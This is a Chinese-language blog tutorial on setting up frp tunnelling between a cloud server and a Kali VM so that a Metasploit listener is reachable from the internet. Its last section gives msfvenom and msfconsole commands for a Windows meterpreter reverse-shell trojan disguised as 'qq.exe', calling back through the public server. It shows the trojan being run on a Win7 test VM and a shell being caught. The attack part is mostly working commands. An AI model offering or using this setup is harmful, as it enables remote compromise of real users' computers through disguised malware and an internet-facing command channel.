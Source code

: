 ```yaml
---
title: frp 搭建公网 Metasploit
date: 2022-4-18 20:18:36
tags: [Trojan horse,Linux,Kali,Metasploit,frp]
categories: 
 - [CyberSecurity,木马]
cover: https://res.cloudinary.com/sycamore/image/upload/v1682442126/Typera/2023/04/87d91c5d20cc130aa72fe99c74a9e8c2.png
---
```


## 准备
- **frps** 部署机。
	- 要求：拥有 **公网IP** （例如 **VPS**、云服务器等等）
	- 本文选用 **Ubuntu 18.04.6** 云服务器
- **frpc** 客户机。
	- 要求：能访问互联网
	- 本文选用 **Kali Linux 2022** 虚拟机
- **frp** 的 **Github** 项目地址：[fatedier/frp](https://github.com/fatedier/frp)
## frps（云服务器）
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) ：
![image-20230426011312770](https://res.cloudinary.com/sycamore/image/upload/v1682442796/Typera/2023/04/65c0edabf7c4cf7b431c9f10ff94bc05.png)

1. 在 **云服务器** 终端上下载：`wget https://github.com/fatedier/frp/releases/download/v0.41.0/frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011322302](https://res.cloudinary.com/sycamore/image/upload/v1682442806/Typera/2023/04/d8b546285137f60d42fef4a27a06d821.png)
2. **解压缩** 下载的文件：`tar -zxvf frp_0.41.0_linux_amd64.tar.gz`
![image-20230426011327257](https://res.cloudinary.com/sycamore/image/upload/v1682442811/Typera/2023/04/4063a698f14734b0fb54a92974122ba5.png)
3. **进入** 解压缩的文件夹：`cd frp_0.41.0_linux_amd64/`
4. 因为配置的是 **frps** ，可以 **删除** 文件夹内的 **frpc** 相关文件，防止后续修改出错：**`rm -rf frpc*`**
![image-20230426011332064](https://res.cloudinary.com/sycamore/image/upload/v1682442816/Typera/2023/04/f776553aeca109b5eef6a7e0d3d6bacd.png)
### 编写 frps 配置文件
`vim frps.ini`
内容如下：
（不想要**监控页面**的话，删除对应配置所在 **行** 即可）
```
[common]
bind_port = 7777          # frps和frpc的通讯端口
dashboard_port = 9999     # web监控页面的端口
dashboard_user = Sycamore # 登录监控页面的用户名
dashboard_pwd = 123456    # 登录监控页面的密码
```
如图所示：
![image-20230426011338410](https://res.cloudinary.com/sycamore/image/upload/v1682442822/Typera/2023/04/02f8cca9459920e2f031c95fec4c172e.png)
（需要 **云服务器** 打开 **对应端口**：7777、9999)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frps -c frps.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 后台运行：`nohup ./frps -c frps.ini >/dev/null 2>&1 &`
	- 因为通常不会 **关闭云服务器**，所以 **后台运行** 就足够了；
	- 当然也可以 **开启自启动**，详情见 **frpc** 的内容，对应命令改个符号就行 ~

## frpc（Kali 虚拟机）
![image-20230426011342973](https://res.cloudinary.com/sycamore/image/upload/v1682442827/Typera/2023/04/692976286e5ddec8cd744326a1c3a54d.png)
### 下载安装
[**Github** 项目](https://github.com/fatedier/frp) 上找到最新的 [releases](https://github.com/fatedier/frp/releases) 

步骤与 **frps** 的几乎**相同**，**区别** 是：
- 对象变成了 **Kali 虚拟机**，而不是 云服务器
- 以及最后一步 **删除的是 frps**：
	4. 因为配置的是 **frpc** ，可以 **删除** 文件夹内的 **frps** 相关文件，防止后续修改出错：**`rm -rf frps*`**

### 编写 frpc 配置文件
作为一款 **内网穿透** 工具，**frp** 穿透了内网之后，还需要使用 **其他手段**（**ssh**）
和外网建立交互，所以 **配置文件** 中会存在 **[ssh]** 配置。

`vim frpc.ini`
内容如下：
```
[common]
server_addr = 106.15.52.194
server_port = 7777

[ssh]
type = tcp
local_ip = 127.0.0.1
local_port = 22
remote_port = 6666
use_compression = true
```
相关 **解释** 如图：
![image-20230426011350366](https://res.cloudinary.com/sycamore/image/upload/v1682442834/Typera/2023/04/2144e375ff1aca162bb41868d050259f.png)

### 运行
相关命令 **基本上** 应当在 **frp_0.41.0_linux_amd64 文件夹** 下执行 ~
- 命令行输入：`./frpc -c frpc.ini`
	- **[注意]**：关闭命令行窗口，或是停止执行该命令，就会 **退出**
- 开机自启动：
	- 服务目录 **新建并编辑** 文件：`vim /lib/systemd/system/frp.service`
	- 填入以下内容：
		```
		[Unit]
		Description=Frp Client Service
		After=network.target remote-fs.target nss-lookup.target
		Wants=network.target
		
		[Service]
		Type=simple
		ExecStart=/root/frp/frpc -c /root/frp/frpc.ini
		Restart=always
		RestartSec=20s
		
		[Install]
		WantedBy=multi-user.target
		```
	- 启动 **frpc** 服务：`systemctl start frp`
	（最后的 `frp` 名称取决于上一步新建的文件名 `frp.service`）
	- 打开 **frpc** 服务自启动 `systemctl enable frp`
		**[注意]：**
		- 如果要重启应用：`systemctl restart frp`
		- 如果要停止应用：`systemctl stop frp`
		- 如果要查看 **frpc** 的日志：`systemctl status frp`
		- 权限不够，记得加 `sudo`

**服务文件** 重要内容注释 如下图：
![image-20230426011356634](https://res.cloudinary.com/sycamore/image/upload/v1682442841/Typera/2023/04/6e79855b87a38703bd5b740419dc6e65.png)

## SSH 连接测试
- 命令行 `ssh root@x.x.x.x -p 6666`
（**root** 用户登录到 **云服务器x.x.x.x** 的 **6666** 端口）
![](https://res.cloudinary.com/sycamore/image/upload/v1682442846/Typera/2023/04/52501488b9125c9518e2190783a8fcf4.png)
- Xshell 创建新会话，具体内容如下：
![image-20230426011410382](https://res.cloudinary.com/sycamore/image/upload/v1682442854/Typera/2023/04/891e33c279efacbf48adee134034f971.png)![image-20230426011417120](https://res.cloudinary.com/sycamore/image/upload/v1682442861/Typera/2023/04/fe85e7d6d6e0e5955c77ff87a4ea5abe.png)
<br>
**Xshell  连接成功**：
![image-20230426011424294](https://res.cloudinary.com/sycamore/image/upload/v1682442869/Typera/2023/04/7eed7e40069de144ddcfb74725077325.png)
## msf 渗透攻击测试
双击打开 刚刚建立的 **Xshell 新会话**（ frp ）.
### frpc 添加新配置
输入命令：`vim frpc.ini`，编辑 **frpc** 配制文件，
在文件末尾 **添加**：
```
[msf]
type = tcp
local_ip = 127.0.0.1
local_port = 4444
remote_port = 2333 
```
配置内容的 **含义** 与 **[ssh]** 类似，解释如图：
![image-20230426011431000](https://res.cloudinary.com/sycamore/image/upload/v1682442874/Typera/2023/04/75402a4aa7e5b6970ffb51313c0a847f.png)

### msf 生成木马
与连接 **本地的 shell** 生成木马不同，
因为我们要使用 **frp 穿透内网** 连接的 shell ，去 **监听木马反弹**的 shell，
所以我们 **生成木马** 时，设置的 LHOST、LPORT 应当是 **云服务器** 的对应数据。
（直接用内网测试的时候，LHOST、LPORT 填的是 **本地虚拟机** 的相关数据）

用 **msf** 生成 **windows** 系统的 **反向shell** 木马：
`msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=x.x.x.x LPORT=2333 -f exe > qq.exe`
![image-20230426011437323](https://res.cloudinary.com/sycamore/image/upload/v1682442881/Typera/2023/04/f72e4363a982738b25b5976722ab8948.png)
成功生成木马文件：**qq.exe**

### msf 监听反弹的 shell
> （确定 frps 、frpc 服务均已在后台运行）
> （事先上传 qq.exe 到测试的靶机，本文用 	Win7_x64 虚拟机替代）

> 关于**上传**：Kali 虚拟机 开启 **Apache2** 服务，Win7_x64 虚拟机 内网访问下载：
> ![](https://res.cloudinary.com/sycamore/image/upload/v1682442886/Typera/2023/04/79c8bcdd330dc38041cee9fa333d9bb8.png)

1. `msfconsole`
	- 打开 **msf**
2. `use exploit/multi/handler`
	- 选择使用的 exploit
3. `set PAYLOAD windows/x64/meterpreter/reverse_tcp`
	- 设置 PAYLOAD （生成木马时使用的）
4. `set LHOST 127.0.0.1`
	- 设置 LHOST 为本地 IP
5. `set LPORT 4444`
	- 设置 LPORT 为转发的本地端口 4444
6. run
	- 开始监听

> （先让 **msf** 开始监听，再双击运行上传的木马文件）

演示如图所示：
- 双击 **运行木马**：
![image-20230426011447735](https://res.cloudinary.com/sycamore/image/upload/v1682442892/Typera/2023/04/553d087d53826c0f6f0bc2edf848b2b0.png)
<br>
- msf **开始监听** & 成功获得 meterpreter **shell**：
![image-20230426011457351](https://res.cloudinary.com/sycamore/image/upload/v1682442902/Typera/2023/04/204ea56873200eb9b2507252955adb2a.png)
